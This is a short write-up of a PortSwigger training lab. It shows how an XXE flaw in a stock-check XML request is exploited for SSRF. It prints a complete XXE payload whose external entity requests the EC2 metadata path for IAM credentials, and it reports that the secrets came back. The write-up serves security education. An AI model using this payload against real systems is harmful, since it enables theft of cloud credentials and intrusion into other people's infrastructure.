



# XXE to perform SSRF

## Description

Link: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

>

## Writeup

We can modify the XML sent to the server in the `check stock` feature and see what happens

>

If the `productId` does not contain a valid value, then an error message will be displayed.

We know that it is vulnerable to XXE. We can access the EC2 metadata endpoint and look for the IAM secret. With some googling and trial and error we find the correct path to the IAM secret credentials, namely `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`


So our XML will look like

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

And we get the secrets

>

We successfully exploited an XXE vulnerability to perform a SSRF attack and retrieve the IAM secret credentials from the EC2 metadata instance.